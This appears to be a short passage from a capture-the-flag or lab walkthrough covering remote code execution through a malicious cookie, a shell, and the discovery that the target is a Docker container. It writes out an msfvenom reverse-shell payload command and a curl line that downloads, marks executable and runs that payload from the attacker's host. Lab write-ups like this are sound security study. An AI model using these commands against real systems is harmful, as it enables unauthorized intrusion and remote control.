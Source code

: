 - Set up Python server

- Copy malicious cookie into the browser
- Refresh page

- We got RCE

![image43](../resources/f9cbb431e71e402aa8b8951530d177e9.png)

- Get shell:

- Create msfvenom:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.82 LPORT=9001 -f elf -o reverse.elf
```

- Setup python server
- Setup listener

- Add line to exploit.py file:

`curl http://10.10.14.82:8001/reverse.elf -o /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf`


![image44](../resources/c0f6f7d3de5d46d4b53ec8a6083a1711.png)

- Got shell:

![image45](../resources/8b1c099b740643febbde4fe1162452a6.png)

- When we run hostanme - we can see we're in a docker:

![image46](../resources/8c1d1d92eba0451b8751213c4ac571a9.png)

As well as in root / - we get .dockerenv


![image47](../resources/011da844eac04961b62e84dc5c707d59.png)
